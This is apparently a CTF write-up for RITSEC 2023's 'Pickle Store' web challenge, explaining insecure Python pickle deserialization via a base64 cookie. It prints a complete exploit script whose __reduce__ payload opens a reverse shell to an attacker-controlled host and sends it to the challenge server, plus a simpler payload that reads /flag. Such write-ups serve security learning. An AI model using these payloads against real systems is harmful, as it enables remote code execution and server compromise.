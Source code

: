 # Pickle Store (RITSEC 2023)

**Challenge category**: Web<br>
**Challenge description**: "New pickles just dropped! Check out the store."<br>
**Challenge points**: 223<br>
**CTF date**: ven, 31 Mar. 2023, 16:00 UTC — dom, 02 Apr. 2023, 16:00 UTC<br>

## Involved Vulnerability

The server of this challenge uses the Python module called *pickle*, which is used for serializing (“*Pickling*”) and deserializing (“*Unpickling*”) Python objects' structure (see [[1]](#1)). This module is vulnerable to RCE during unpickling of class instances (objects). Classes can be defined to contain methods that can be called during the unpickling process to specify how they should be unpickled. One of these methods is *\_\_reduce()\_\_*.<br>
As evidenced by [[1]](#1):<br>

>The \_\_reduce\_\_() method takes no argument and shall return either a string or preferably a tuple (the returned object is often referred to as the “reduce value”).<br>
If a string is returned, the string should be interpreted as the name of a global variable. \[...\]<br>
When a tuple is returned, it must be between two and six items long. Optional items can either be omitted, or None can be provided as their value. The semantics of each item are in order:<br> - A **callable object** that will be called to create the initial version of the object.<br> - A **tuple of arguments** for the callable object. An empty tuple must be given if the callable does not accept any argument.<br> - \[...\]

A Python function is a callable object. So, if the attacker defines a class like the one below, pickles its instance and send the pickled object to the server, this will execute the specified function with the parameters given in the tuple.
```python
class RCE:
    def __reduce__(self):
        #code inside the method will be executed only during pickling, not unpickling (only the return statement will be coded in pickle format).
        return (function_name, (parameter_1,parameter_2,)) #if there is only 1 parameter: (parameter_1,)
```
## Exploring the challenge
This is the first thing we see as soon as we access the challenge:

![Pickle Store](https://user-images.githubusercontent.com/66698256/229376712-d235bbbb-0d59-4c3d-a9e0-ab0829107127.png)

If we click on one of the buttons (the first one, for example), we will be redirected to <code>/order</code>:

![Order executed](https://user-images.githubusercontent.com/66698256/229377403-7b7e14fd-62dd-46fd-9b15-5188b734f11d.png)

Clicking on the "New Order" button we will be redirected to the initial page. By inspecting the four buttons something interesting can be noticed:

![Cookie setting](https://user-images.githubusercontent.com/66698256/229377514-b38166dd-aa58-412f-866b-9b865f722abc.png)

When a button is clicked, a cookie called "*order*" is set to a base64 string containing a pickled object and sent to the server through a GET request to <code>/order</code>. Here the string is presumably read from the cookie, decoded, the pickled object unpickled and ultimately printed within the returned page (if a string). Thanks to this cookie the server knows which article (or pickle) the user has chosen to buy.<br>
If we take the cookie value defined in the event handler of the "Sweet Pickle" button, decode it and unpickle it, we'll understand better how all this works.

![Unpickling](https://user-images.githubusercontent.com/66698256/229381958-d871524b-304f-4e3b-932b-790bd8eba284.png)

As expected, the obtained object ("*sweetpickle*") is a string and it's the same visualized in the <code>/order</code> page.<br>
Thus we can pickle any object (not only strings), encode it in base64 and set the "*order*" cookie accordingly. Once recieved by the server at the <code>/order</code> endpoint, the string will be decoded, the pickled object unpickled and, if a string, printed within the returned page.

![Pickling](https://user-images.githubusercontent.com/66698256/229382473-c062a8e3-a07e-4b39-8ee6-72cf397041aa.png)

![Set forged cookie](https://user-images.githubusercontent.com/66698256/229382220-2c6b25ef-d00e-4681-8267-fa8c751e4892.png)

![AAAA](https://user-images.githubusercontent.com/66698256/229378762-be51dd0c-33b0-40c2-abcf-c1b41e340fde.png)

## Attack

The behaviour to be exploited is the insecure unpickling (or insecure deserialization) of particular pickled objects. What the application does with the output of the deserialization is of no interest to the attacker. A way to exploit the involved vulnerability is to spawn a reverse shell on the server through Python code. The *\_\_reduce\_\_()* method should be defined like this:

```python
host="IP_Address"   #or "Domain_Name"
port="PORT"

class RCE:
    def __reduce__(self):
        return (exec, ('from os import dup2;from subprocess import run; import socket; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("'+host+'",'+port+')); dup2(s.fileno(),0); dup2(s.fileno(),1); dup2(s.fileno(),2); run(["/bin/bash","-i"]);',))
```
Variables <code>host</code> and <code>port</code> contain, respectively, the IP address (or domain name) and the port on which the attacker will listen for the spawned reverse shell. 
The complete exploit is the following:
```python
import pickle
import base64
import requests
import socket

host="IP_Address"   #or "Domain_Name"
port="PORT"

class RCE:
    def __reduce__(self):
        return (exec, ('from os import dup2;from subprocess import run; import socket; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("'+host+'",'+port+')); dup2(s.fileno(),0); dup2(s.fileno(),1); dup2(s.fileno(),2); run(["/bin/bash","-i"]);',))

pickled_bytes=pickle.dumps(RCE())    #Object instance ---> Pickle format (bytes)
pickled_base64_bytes = base64.b64encode(pickled_bytes)    #Pickle format (bytes) ---> Base64 encoding (bytes)
pickled_base64_string = pickled_base64_bytes.decode('ascii')   #Base64 encoding (bytes) ---> Base64 encoding (string)
response=requests.get("https://pickles-web.challenges.ctf.ritsec.club/order",cookies={"order":pickled_base64_string})
print(response.text)
```
In order to execute a reverse shell a service like *ngrok* can be used. In this example we will listen on port <code>9001</code> of our own machine, but for the challenge's server it is as if we will listen on port <code>19945</code> at <code>4.tcp.eu.ngrok.io</code> (*ngrok* will redirect traffic on its port to ours). So:

![Listening_Reverse_Shell](https://user-images.githubusercontent.com/66698256/229460262-ab932d54-cd3b-4129-8e6a-0414c33c22e6.png)

Then we'll execute the exploit:

![Exploit](https://user-images.githubusercontent.com/66698256/229460307-60e25c2c-305a-493c-a2e4-e2c2553d8721.png)

![Spawned_Reverse_Shell](https://user-images.githubusercontent.com/66698256/229456613-76d66a6c-1468-4e23-8626-c1c79855f29c.png)

Reverse shell spawned! The flag is inside <code>/flag</code> file.

![Flag](https://user-images.githubusercontent.com/66698256/229458939-a3ca621a-0721-4edf-8ae2-a1709a4c9edd.png)

Flag is <code>RS{TH3_L345T_53CUR3_P1CKL3}</code>.

## Other solution

A less complicated way to solve the challenge was to pickle an instance of the following class:

```python
class RCE:
    def __reduce__(self):
        return (subprocess.check_output,(["cat","/flag"],))
```
The flag would have been returned in the <code>/order</code> page.

![Alternative_Solution](https://user-images.githubusercontent.com/66698256/229853920-2302a399-7ae8-439d-b783-330197499681.png)

## References
<a id="1">[1]</a> 
https://docs.python.org/3/library/pickle.html
